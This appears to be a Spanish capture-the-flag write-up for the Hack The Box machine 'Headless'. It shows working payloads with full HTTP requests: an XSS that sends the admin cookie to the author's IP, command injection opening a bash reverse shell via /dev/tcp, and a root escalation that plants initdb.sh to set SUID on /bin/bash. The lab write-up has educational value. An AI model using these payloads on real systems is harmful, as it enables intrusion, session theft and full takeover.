

---------------
- Tags:  XSS RCE HTB Easy Burpsuite Whatweb Linux Sudo
--------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap
Vemos que con el scan de nmap nos reporta 2 puertos abiertos: 22 SSH y 5000
```Bash
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.8 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 10:03 -03
Initiating SYN Stealth Scan at 10:03
Scanning 10.10.11.8 [65535 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed SYN Stealth Scan at 10:03, 18.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.8
Host is up, received user-set (0.23s latency).
Scanned at 2024-07-24 10:03:38 -03 for 18s
Not shown: 54979 closed tcp ports (reset), 10554 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

> nmap -p22,5000 -sCV 10.10.11.8 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 10:11 -03
Nmap scan report for 10.10.11.8
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 24 Jul 2024 13:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=7/24%Time=66A0FD77%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Wed,\x2024\x20Jul\x202024\x2013:11:22\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.85 seconds
```
Vemos que en el sitio web que esta por el puerto 5000 esta ejecutando Werkzeug con Python.
-  Con Whatweb podemos ver las tecnologías y versiones que hay por detrás de esta pagina web
```bash
> whatweb http://10.10.11.8:5000
http://10.10.11.8:5000 [200 OK] Cookies[is_admin], Country[RESERVED][ZZ], HTML5,HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[10.10.11.8], Python[3.11.2], Script, Title[Under Construction], Werkzeug[2.2.2]
```
Visitando la pagina web `http://10.10.11.8:5000` muestra que la pagina esta en construcción, junto a una cuenta regresiva


Si hacemos Click en `For questions`, vemos que nos lleva a  `http://10.10.11.8:5000/support` donde podemos ver un formulario de contacto.


Pruebo para ver si algunos parámetros en el formulario de contactos son vulnerables, entonces intercepto la solicitud con Burpsuite e intento un ataque `Cross Site Scripting`:
```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=tets&lname=test&email=test%40test.com&phone=test&message=
```


Nos muestra un mensaje de `Hacking Attempt Detected`, donde nos indica que los administradores nos investigaran.
- En este punto verifique con `gobuster` si no hay otras paginas o directorios: 
```bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```
Como vemos tenemos `/dashboard` que da un código de estado 500(Internal Server Error), pero visitando este directorio vemos que realmente es código de estado 401(Unauthorized)


Por lo tanto decido volver a intentar a inyectar payloads `XSS` de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) luego de varios intentemos vemos que funciona.
```
<script>document.location="http://10.10.16.36/xss-76.js?cookie="+btoa(document.cookie);</script>
```
Como vemos en el payload donde pone `10.10.16.36` es mi IP lo que hacemos es montar un servidor con `python3 -m http.server 80`, lo siguiente que hice es inyectar el payload en el User-Agent pero para que esto funcione y poder robar la Cookie tenemos que ingresar el mismo payload en algún parámetro del formulario, con esto lo que hacemos es que pueda saltar las alertas de intento de hackeo(Hacking Attempt Detected) y sea revisado por el "administrador"
```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent:<script>document.location="http://10.10.16.36/xss-76.js?cookie="+btoa(document.cookie);</script>  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=tets&lname=test&email=test%40test.com&phone=test&message=<script>document.location%3d"http%3a//10.10.16.36/xss-76.js%3fcookie%3d"%2bbtoa(document.cookie)%3b</script>  
```


Como podemos ver obtenemos la cookie:
```shell
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [24/Jul/2024 11:38:28] code 404, message File not found
10.10.11.8 - - [24/Jul/2024 11:38:28] "GET /xss-76.js?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 404 -
10.10.11.8 - - [24/Jul/2024 11:38:29] code 404, message File not found
10.10.11.8 - - [24/Jul/2024 11:38:29] "GET /favicon.ico HTTP/1.1" 404 -
```
Vemos que esta esta encodeada en base64 por lo tanto la decodifico:
```bash
❯ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Al parecer tenemos la cookie de un admin, si recordamos tenemos un directorio que es dashboard si vamos a este y en Firefox presiono(Ctrl+Shift+C) y vamos a Storge, vemos que el sitio tiene una cookie con el parametro is_admin. Entonces remplazamos el valor de la cookie con el valor de la cookie que obtuvimos 


# [](#header-4)Comand Injection RCE
Si recargamos vemos la siguiente

![[Pasted image 20240724120010.png]](../assets/images-Headless/Headless8.png)

Si clickeamos en `Generate Report` nos muestra el siguiente mensaje


Por lo que podemos llegar a pensar que al presionar `Generate Report` se esta ejecutando algún comando a nivel de sistema, entonces interceptamos la petición con Burpsuite para ver realmente lo que esta pasando:
```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15
```
Entonces vemos si podemos inyectar comandos en el parámetro date por lo tanto vamos a intentar poniendo `; whoami` 
```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; whoami
```
Vemos efectivamente que podemos inyectar comandos


Por lo que procedo a enviarme una reverse shell, a esto en la solicitud que vamos a enviar lo URL encodeamos
```
bash -c "bash -i >& /dev/tcp/10.10.16.36/443 0>&1"
```
Nos ponemos en escucha con `netcat` por el puerto 443:
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```
Enviamos la solicitud:
```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;+bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.36/443+0>%261"
```
Y obtenemos la conexión como el usuario dvir
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.36] from (UNKNOWN) [10.10.11.8] 34654
bash: cannot set terminal process group (1370): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
dvir@headless:~/app$
```

# [](#header-4) Tratamiento de TTY
Procedemos a hacer una un tratamiento de la TTY para obtener una consola interactiva
```bash
dvir@headless:~/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
dvir@headless:~/app$ 
```
Presionamos Ctrl+Z, luego ingresamos el comando `stty raw -echo; fg` luego de esto reset xterm asi nos resetea la consola
```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
Luego procedemos con
```bash
dvir@headless:~/app$ export TERM=xterm
dvir@headless:~/app$ export SHELL=/bin/bash
dvir@headless:~/app$ stty rows 29 columns 128
```
- En stty rows columns deberan fijarse la proprosiones de su consola en una ventana aparte con
`stty size`
[Pasted image 20240724122717.png](../assets/images-Headless/Headless11.png)
Ahora vemos la flags del usario
```bash
dvir@headless:~$ cat user.txt 
**************************7467e1cd
```

---------------
# [](#header-2)Privilege Escalation
Vemos que con este usuario puede ejecutar un script como sudo sin proporcionar contraseña
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
Vemos que a este script no podemos modificarlo solo ejecutarlo y leerlo
```bash
dvir@headless:~$ ls -la /usr/bin/syscheck
-r-xr-xr-x 1 root root 768 Feb  2 16:11 /usr/bin/syscheck
dvir@headless:~$ 
```
Por lo tanto veamos que hace este script
```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
Como podemos ver el script busca un script llamado `initdb.sh` en le directorio actual de tabajo y lo ejecuta como root. Por lo que hago es irme a tmp y crear el script initdb.sh
```bash
dvir@headless:~$ cd /tmp
dvir@headless:/tmp$ nano initdb.sh
dvir@headless:/tmp$ cat initdb.sh 
#!/bin/bash

chmod u+s /bin/bash

dvir@headless:/tmp$ chmod +x initdb.sh
```
Con el script creado lo que hare es que a la bash le dare permisos SUID, le damos persmisos de ejecucion y ejecutamos el script `syscheck` como sudo
```bash
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:/tmp$ bash -p
bash-5.2# whoami
root
bash-5.2# 
```
como vemos al ejecutar cambia los persmisos de la bash y luego al hacer `bash -p` nos damos una bash como root y ahora podemos leer la flag
```bash
bash-5.2# cat root.txt 
****************************b1400f
```
